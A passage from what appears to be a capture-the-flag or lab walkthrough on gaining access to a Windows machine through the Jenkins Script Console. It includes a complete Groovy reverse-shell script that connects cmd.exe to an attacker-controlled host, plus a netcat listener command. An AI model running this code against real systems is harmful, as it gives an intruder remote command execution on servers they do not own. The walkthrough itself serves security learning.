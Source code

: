 On the left side, you'll see the side menu. Select `Manage Jenkins`.

![alt text](https://i.imgur.com/FceoyID.png "Manage Jenkins")

#### Accessing the "Script Console"

From here, scroll down until you see the `Script Console`.

![alt text](https://i.imgur.com/lnfwsqT.png "Script console")

That's it! See **Step 3: Exploitation** to learn how to exploit this in order to get a reverse shell.

### *Port 3389 -- RDP*

Roughly, RDP is to Windows what SSH is to Linux. While it is great to take a note of its presence, it usually won't be a way in. At least not directly.

## **Step 3 : EXPLOITATION**

As previously mentioned, we found a script console that lets us execute **Groovy scripts** on the server. This will be our focus in order to get a reverse shell.

### *Finding a Groovy script reverse shell*

Using one of my favorite resource, [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy), we found a reverse shell script!

Here is the code:

```
String host="YOUR_TUN0";
int port=YOUR_LPORT;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Awesome! We found a reverse shell. Simply fill this script by providing your `LHOST` and `LPORT`.

Here's how it should look like:

![alt text](https://i.imgur.com/w749m0p.png "Script Example")

**Don't run the script yet! Let's set up a netcat listener first.**

### *Set up your netcat listener*

This step is quite straight forward. Open up a new terminal tab and enter the following command:

`nc -nvlp YOUR_LPORT`
